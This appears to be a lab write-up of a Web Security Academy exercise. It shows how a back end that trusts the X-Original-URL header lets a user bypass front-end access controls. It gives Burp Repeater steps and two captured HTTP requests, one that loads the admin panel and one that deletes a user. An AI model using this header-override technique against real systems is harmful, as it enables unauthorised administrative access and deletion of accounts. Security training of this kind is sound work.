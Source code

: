 > Finding: The back-end blindly trusts the `X-Original-URL` header, allowing attackers to bypass front-end URL-based access controls.

---

## Reproduction steps  

1. Log in to the application (session cookie: `Zx9JQfWO8nmNVWQ7bZDZYGMUSqVetwir`).  
2. Use **Burp Repeater** to craft a request to `GET /`.  
3. Add header: `X-Original-URL: /admin`.  
4. Send request → admin panel loads.  
5. Craft deletion request:  
   - Request line: `GET /?username=carlos`  
   - Header: `X-Original-URL: /admin/delete`  
6. Send request → user `carlos` deleted.  
7. Verify via lab completion.

**Captured Burp Suite HTTP interactions:**

**Request 1: Access admin panel via header override**
```
GET / HTTP/2
Host: 0a48004904c1276882430cc400dc00f9.web-security-academy.net
Cookie: session=Zx9JQfWO8nmNVWQ7bZDZYGMUSqVetwir
Sec-Ch-Ua: "Not=A?Brand";v="24", "Chromium";v="140"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
X-Original-URL: /admin
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a48004904c1276882430cc400dc00f9.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

**Request 2: Delete user carlos via header override**
```
GET /?username=carlos HTTP/2
Host: 0a48004904c1276882430cc400dc00f9.web-security-academy.net
Cookie: session=Zx9JQfWO8nmNVWQ7bZDZYGMUSqVetwir
Sec-Ch-Ua: "Not=A?Brand";v="24", "Chromium";v="140"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
X-Original-Url: /admin/delete
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a48004904c1276882430cc400dc00f9.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```